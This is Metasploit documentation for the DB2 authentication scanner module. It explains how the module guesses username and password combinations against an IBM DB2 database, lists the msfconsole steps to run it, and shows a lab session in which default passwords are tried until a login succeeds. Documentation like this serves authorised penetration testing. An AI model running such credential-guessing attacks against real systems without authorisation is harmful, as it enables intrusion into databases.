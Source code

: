 ## Vulnerable Application

This module attempts to authenticate against a DB2 instance using username and password combinations indicated by the `USER_FILE`, `PASS_FILE`, and `USERPASS_FILE` options.

More information can be found on the [Rapid7 Vulnerability & Exploit Database page](https://www.rapid7.com/db/modules/auxiliary/scanner/db2/db2_auth) and https://nvd.nist.gov/vuln/detail/CVE-1999-0502

## Verification Steps

  1. Start msfconsole
  2. Do: `use auxiliary/scanner/db2/db2_auth`
  3. Do: `set RHOSTS [ip]`
  4. Do: `run`

## Scenarios

###  A run on Kali Linux 2019.3 and DB2 11.5.0.0a

    ```
    msf > use auxiliary/scanner/db2/db2_auth
    msf auxiliary/scanner/db2/db2_auth) > show options
    msf auxiliary/scanner/db2/db2_auth) > set USERNAME db2inst1
    msf auxiliary/scanner/db2/db2_auth) > set PASSWORD db2pass
    msf auxiliary(scanner/db2/db2_auth) > set DATABASE testdb
    msf auxiliary/scanner/db2/db2_auth) > set RHOST 172.17.0.2
    msf auxiliary/scanner/db2/db2_auth) > run
      [-] 172.17.0.2:50000      - 172.17.0.2:50000 - LOGIN FAILED: db2inst1:db2inst1@testdb (Incorrect: )
      [-] 172.17.0.2:50000      - 172.17.0.2:50000 - LOGIN FAILED: db2inst1:dasusr1@testdb (Incorrect: )
      [-] 172.17.0.2:50000      - 172.17.0.2:50000 - LOGIN FAILED: db2inst1:db2fenc1@testdb (Incorrect: )
      [*] 172.17.0.2:50000      - Login Successful: db2inst1:db2pass
      [*] 172.17.0.2:50000      - Scanned 1 of 1 hosts (100% complete)
      [*] Auxiliary module execution completed
    ```
